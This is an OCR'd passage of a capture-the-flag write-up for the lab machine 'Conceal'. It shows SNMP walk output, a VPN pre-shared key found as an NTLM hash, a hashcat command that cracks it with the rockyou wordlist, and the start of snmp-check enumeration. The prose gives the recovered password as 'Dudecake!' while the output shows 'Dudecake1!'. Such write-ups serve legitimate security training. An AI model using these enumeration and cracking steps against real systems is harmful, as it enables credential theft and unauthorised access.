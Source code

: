 1.3.6.1.2.1.2.2.1.1.4 = INTEGER: 4

1.3.6.1.2.1.2.2.1.1.5 = INTEGER: 5

1.3.6.1.2.1.2.2.1.1.6 = INTEGER: 6

1.3.6.1.2.1.2.2.1.1.7 = INTEGER: 7

1.3.6.1.2.1.2.2.1.1.8 = INTEGER: 8

1.3.6.1.2.1.2.2.1.1.9 = INTEGER: 9

1.3.6.1.2.1.2.2.1.1.10 = INTEGER: 10

1.3.6.1.2.1.2.2.1.1.11 = INTEGER: 11

1.3.6.1.2.1.2.2.1.1.12 = INTEGER: 12

1.3.6.1.2.1.2.2.1.1.13 = INTEGER: 13

1.3.6.1.2.1.2.2.1.1.14 = INTEGER: 14

1.3.6.1.2.1.2.2.1.1.15 = INTEGER: 15

1.3.6.1.2.1.2.2.1.1.16 = INTEGER: 16

1.3.6.1.2.1.2.2.1.2.1 = OCTET STRING: Software Loopback Interface 1

1.3.6.1.2.1.2.2.1.2.2 = OCTET STRING: WAN Miniport \(IKEv2\)

1.3.6.1.2.1.2.2.1.2.3 = OCTET STRING: vmxnet3 Ethernet Adapter

&lt;SNIP&gt;

One thing we notice immediately is that there is an IKE VPN password PSK \(pre-shared key\) which is 9C8B1A372B1878851BE2C097031B6E43. If we check this hash online, or through listing hashcat hash examples, it is likely to be an NTLM hash. We can crack it with hashcat as follows:

┌─\[rin@parrot\]─\[~/boxes/Conceal\]

└──╼ $hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

hashcat \(v6.1.1\) starting...

&lt;SNIP&gt;

9c8b1a372b1878851be2c097031b6e43:Dudecake1!

Session..........: hashcat

Status...........: Cracked

Hash.Name........: NTLM

We get the password "Dudecake!". Before we leave the SNMP enumeration, we can use another utility to enumerate it called snmp-check:

┌─\[rin@parrot\]─\[~/boxes/Conceal\] \[454/578\]

└──╼ $snmp-check 10.129.90.149

snmp-check v1.9 - SNMP enumerator

Copyright \(c\) 2005-2015 by Matteo Cantoni \(www.nothink.org\)
